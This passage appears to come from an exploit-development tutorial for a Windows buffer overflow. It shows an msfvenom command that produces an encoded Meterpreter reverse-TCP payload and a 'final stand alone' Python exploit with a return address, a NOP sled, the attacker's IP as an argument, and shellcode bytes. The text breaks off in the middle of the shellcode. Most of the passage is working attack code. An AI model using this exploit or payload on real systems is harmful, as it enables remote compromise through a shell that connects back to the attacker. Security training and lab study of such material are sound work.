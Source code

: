 It’s exactly the same as our past payload but with the stack adjustment having taken place at the start of the exploit. We’re almost done now but we have one final step we need to do to the shellcode.

**Encoding Shellcode**

In both our stack adjustment command and the payload itself there are null characters which we need to remove. Msfencode comes to our rescue once again and we can reencode the payload without nulls.

```
cat exploit | msfvenom -p windows/meterpreter/reverse_nonx_tcp -b '\x00' -e x86/shikata_ga_nai -f python
``` 
![enter image description here](https://raw.githubusercontent.com/shubham381/Standalone/master/Shell.png)

We can now cut and paste this shellcode into our python exploit. The final exploits looks like the below.

_Final Stand Alone_ Exploit

```
import sys, socket
 
# Use in the form "python filename.py <Target IP Address> <Port> <Your IP Address>"
 
host = sys.argv[1]		# Recieve IP from user
lhost = sys.argv[3]
port = int(sys.argv[2])		# Recieve Port from user
 
ret = "\x53\x93\x42\x7e" 	# Return address - Source Metasploit (Little Endian)
nop = "\x90" * (25-len(lhost))	# Create a NOP string as to bring NOPs + LHOST up to 25 bytes
buf =  ""
buf += "\xbb\xd2\x8c\x3a\x78\xdb\xd2\xd9\x74\x24\xf4\x58\x31"
buf += "\xc9\xb1\x2e\x31\x58\x15\x03\x58\x15\x83\xc0\x04\xe2"
buf += "\x27\x0d\xd6\xd4\xca\x0e\x27\xd9\xbe\xe5\x60\xc9\xc7"
buf += "\x05\x91\xf6\x57\xcb\xb5\x82\xea\x17\xc1\xe9\x29\x10"
buf += "\xd4\xfe\xda\xb7\xf6\x01\x36\xbc\xc3\x9b\xc7\x2d\x1a"
buf += "\x5c\x5e\x1d\x9c\x96\x6d\x5f\xdd\xa3\xad\x2a\x17\xe8"
buf += "\x4b\xec\x1d\x9a\x70\x45\x29\x2a\x52\x5b\xc4\xd3\x11"
buf += "\x47\x4f\x97\x6a\x64\x6e\x4e\x77\xb8\xe9\x19\x1b\xe4"
buf += "\x15\x7b\x1c\x04\x14\xa0\x86\x4e\x14\x66\xcd\x11\x97"
buf += "\x0d\xa1\x8d\x0a\x9a\x29\xa6\x0a\xfb\xfa\xd0\xda\x30"
buf += "\xce\x74\x6c\x44\x1c\xda\xc6\xcc\xd9\x96\x86\xef\xcf"
buf += "\xc2\x14\x43\xbc\xbf\xd9\x30\x01\x13\x57\x51\xe3\x12"
```